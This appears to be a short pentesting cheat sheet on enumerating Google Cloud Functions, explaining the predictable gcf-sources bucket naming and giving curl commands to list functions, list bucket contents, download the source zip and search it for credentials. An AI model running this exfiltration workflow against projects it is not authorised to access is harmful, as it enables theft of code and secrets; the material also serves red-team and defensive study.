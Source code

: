 # Google Cloud Functions GCF Enumeration

## Description

### Google Cloud Function code gets stored in a Google Cloud Storage bucket. Although we currently don't know the exact bucket name, it's worth noting that GCP uses a predictable naming format for Cloud Function buckets! The bucket naming format is gcf-sources-BUILD_NUMBER-REGION

## Format

#### 1) gcf-sources : A hardcoded value

#### 2) 212055223570 : The build number (included above with the buildName key)

#### 3) us-central1: The region

## Commands

 - curl -H "Authorization: Bearer $ACCESS_TOKEN" \
    "https://cloudfunctions.googleapis.com/v1/projects/PROJECT_NAME/locations/-/functions" (Enumerate functions via the GCP API)

### Set bucket name as a variable

 - BUCKET_NAME="gcf-sources-212055223570-us-central1" (Example)

### Make a request to list the bucket contents

 - curl -X GET -H "Authorization: Bearer $ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b/$BUCKET_NAME/o"

## We can now exfiltrate the source code and inspect it! Using Google's Storage API we download the zip file (example):

 - FILE_URL="https://www.googleapis.com/download/storage/v1/b/gcf-sources-212055223570-us-central1/o/function-1-8678e4fb-cf43-4d97-b877-6512729bdba4%2Fversion-2%2Ffunction-source.zip?generation=1708197786687849&alt=media"

## Download the file with GCP authentication

 - curl -o function-source.zip -H "Authorization: Bearer $ACCESS_TOKEN" "$FILE_URL"

 - unzip function-source.zip (Unzip the function file to inspect the source code for credentials/secrets/etc.)
